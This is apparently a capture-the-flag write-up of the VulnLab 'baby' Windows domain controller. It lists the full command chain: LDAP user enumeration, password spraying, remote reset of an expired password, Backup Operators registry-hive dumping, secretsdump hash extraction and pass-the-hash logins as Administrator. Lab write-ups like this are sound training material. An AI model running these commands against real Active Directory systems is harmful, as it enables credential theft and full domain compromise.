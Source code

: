 ```yaml
---
layout: post
title:  "VulnLab | baby"
description: "walkthrough of baby machine, an easy rated box from VulnLab"
date: "2024-11-15"
pin: true
image:
  path: ../assets/img/ctf/vulnlab/baby/baby1.png
  alt: "baby.vl"
category: "VulnLab"
tags: ["Active Directory", "ldap", "STATUS_PASSWORD_MUST_CHANGE" ,"Backup Operators"]
---
```


## Introduction
------------------------------------------------------------------------------------------
[baby](https://www.vulnlab.com/machines)

------------------------------------------------------------------------------------------

## Enumeration
### All Open Ports
```bash
rustscan -a 10.10.116.81
```
![rustscan](./assets/img/ctf/vulnlab/baby/baby2.png)

### Services Scanning
```bash
nmap -p... -sC -sV -v -oN baby.full 10.10.116.81
```
```text
# Nmap 7.94SVN scan initiated Tue Nov 12 17:02:51 2024 as: nmap -p53,88,135,139,389,445,464,593,636,3389,5357,5985,9389,49664,49667,49669,49674,49675,51102,51118 -sC -sV -v -oN baby.full 10.10.116.81
Nmap scan report for 10.10.116.81
Host is up (0.049s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-12 16:02:58Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-11-12T16:04:26+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Issuer: commonName=BabyDC.baby.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-07-26T09:03:15
| Not valid after:  2025-01-25T09:03:15
| MD5:   a63f:e0e6:9c19:ba19:0f14:2198:bd20:3eb3
|_SHA-1: 79c6:f752:73d0:6818:241e:6087:88b0:2a7f:b0bf:ec7f
| rdp-ntlm-info: 
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-11-12T16:03:47+00:00
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
51102/tcp open  msrpc         Microsoft Windows RPC
51118/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-11-12T16:03:48
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 12 17:04:28 2024 -- 1 IP address (1 host up) scanned in 96.54 seconds
```
### Hostname
```bash
echo '10.10.116.81  BabyDC.baby.vl  baby.vl'  >> /etc/hosts
```

## Foothold
```bash
ldapsearch -H ldap://baby.vl -x -b "DC=baby,DC=vl" '(objectclass=User)' "sAMAccountName" | grep sAMAccountName
```
![Users](./assets/img/ctf/vulnlab/baby/baby3.png)
```bash
ldapsearch -H ldap://baby.vl -x -b "DC=baby,DC=vl" '(objectclass=User)' | grep description -C 5
```
![users and description](./assets/img/ctf/vulnlab/baby/baby4.png)
```bash
ldapsearch -H ldap://baby.vl -x -b "DC=baby,DC=vl" '(objectclass=Group)' | grep 'member:'
```
![Groups](./assets/img/ctf/vulnlab/baby/baby5.png)
```text
Jacqueline.Barnett
Ashley.Webb
Hugh.George
Leonard.Dyer
Connor.Wilkinson
Joseph.Hughes
Kerry.Wilson
Teresa.Bell
Caroline.Robinson
Ivan.Walker
```

```bash
nxc smb baby.vl -u users.txt -p 'BabyS********'
```
![password spaying](./assets/img/ctf/vulnlab/baby/baby6.png)

```sh
smbpasswd -r 10.10.116.81 -U Caroline.Robinson
```
![caroline passwd change](./assets/img/ctf/vulnlab/baby/baby7.png)

```text
user: Caroline.Robinson
pass: NewP@ssw0rd
```

```bash
nxc smb baby.vl -u Caroline.Robinson -p NewP@ssw0rd
nxc winrm baby.vl -u Caroline.Robinson -p NewP@ssw0rd
nxc smb baby.vl -u Caroline.Robinson -p NewP@ssw0rd --shares
```
![winrm](./assets/img/ctf/vulnlab/baby/baby8.png)
![smb shares](./assets/img/ctf/vulnlab/baby/baby9.png)

```bash
ldapdomaindump  'ldap://baby.vl' -u 'baby.vl\Caroline.Robinson' -p NewP@ssw0rd -o lootme
```
![ldap dom dump](./assets/img/ctf/vulnlab/baby/baby10.png)
```bash
evil-winrm -i baby.vl -u Caroline.Robinson -p NewP@ssw0rd
```
![evil-winrm](./assets/img/ctf/vulnlab/baby/baby11.png)


## Privilege Escalation
```powershell
net user Caroline.Robinson
```
![net user](./assets/img/ctf/vulnlab/baby/baby12.png)

```bash
reg.py baby.vl/Caroline.Robinson:'NewP@ssw0rd'@10.10.116.81  backup -o '\\10.10.116.81\C$'
```
![registry](./assets/img/ctf/vulnlab/baby/baby13.png)

```bash
secretsdump.py -sam SAM.save -system SYSTEM.save -security SECURITY.save LOCAL
```
![local secretsdump](./assets/img/ctf/vulnlab/baby/baby14.png)

```bash
nxc smb baby.vl -u Administrator -H 8d992faed38128ae85e95f********
```
![local secretsdump](./assets/img/ctf/vulnlab/baby/baby15.png)

```sh
secretsdump.py -hashes 'aad3b435b51404eeaad3b435b51404ee':'03f31d66e3ee8be794059*********' 'baby.vl'/'BabyDC$'@'10.10.116.81'
```
![local secretsdump](./assets/img/ctf/vulnlab/baby/baby16.png)

```bash
nxc smb baby.vl -u Administrator -H ee4457ae59f1e3fbd76*******
```
![local secretsdump](./assets/img/ctf/vulnlab/baby/baby17.png)

```bash
evil-winrm -i baby.vl -u Administrator -H ee4457ae59f1e3fbd76*******
```
![local secretsdump](./assets/img/ctf/vulnlab/baby/baby18.png)

## Kill Chain Summary


## References
[reseting expired passwords](https://www.n00py.io/2021/09/resetting-expired-passwords-remotely/)